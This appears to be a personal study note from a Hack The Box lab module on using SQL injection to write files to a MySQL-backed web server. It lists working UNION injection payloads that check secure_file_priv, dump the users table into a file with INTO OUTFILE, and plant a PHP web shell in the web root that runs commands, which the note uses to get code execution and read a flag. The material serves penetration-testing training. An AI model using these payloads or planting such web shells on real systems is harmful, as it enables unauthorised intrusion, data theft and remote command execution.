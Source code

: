 
***
###### `Title :- Writing Files`
###### `Created on :- 2023-06-18 - 05:35`
###### `Created by:- Prem J`
***

- Writing files is much more restricted in the modern DBMSes, because it may lead to RCE. Only certain privileges for DBA's have the privilege to write files.

#### `Write File Privileges -->`

- To be able to write files to the back-end server using a MySQL database, we require three things
	1. User with `FILE` privilege enabled
	2. MySQL global `secure_file_priv` variable not enabled
	3. Write access to the location we want to write to on the back-end server

- According to the [[Reading Files]] the current user already has FILE type privileges

#### `secure_file_priv -->`

- The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from
- An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable
- On the other hand, `NULL` means we cannot read/write from any directory. **MariaDB** has this variable set to empty by default, which lets us read/write to any file if the user has the `FILE` privilege
- However, `MySQL` uses `/var/lib/mysql-files` as the default folder.
- some modern configurations default to `NULL`. We can view the variable using

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

- However, as we are using a `UNION` injection, we have to get the value using a `SELECT`statement. This shouldn't be a problem, as all variables and most configurations' are stored within the `INFORMATION_SCHEMA` database. `MySQL` global variables are stored in a table called [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columns `variable_name` and `variable_value`.
- We have to select these two columns from that table in the `INFORMATION_SCHEMA`database. There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them. We will then filter the results to only show the `secure_file_priv` variable, using the `WHERE` clause we learned about in a previous section.

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![[Pasted image 20230618060043.jpg]]

- it's empty stating we have access to everything.

#### `SELECT INTO OUTFILE -->`

- to write files into the back-end server we need use the  [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/)statement, which is used to write data from select queries to files.

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

- upon which file gets created in the backend i.e we can find the content in `/tmp/credentials`.
- It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```shell-session
premjampuram@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

- the file was created and owned by mysql.

>[!tip]
>Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data

#### `Writing files through SQL Injection -->`

- MySQL we application is launched from /var/www/html.

>[!tip]
>To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

- The Union injection payload is 

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

![[Pasted image 20230618065447.png]]

- We don't see any errors but the file would have been written to the web root directory. Making it available to anyone who visits the site.

#### `Writing a web shell -->`

- Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:

```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous `UNION` injection payload, and change the string to the above, and the file name to `shell.php`:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

- Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:

![[Pasted image 20230618070528.png]]

- The output of the `id` command confirms that we have code execution and are running as the `www-data` user.
- To run commands using php we can also do

```sql
cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>',"","" into outfile '/var/www/html/shell7.php'-- 
```
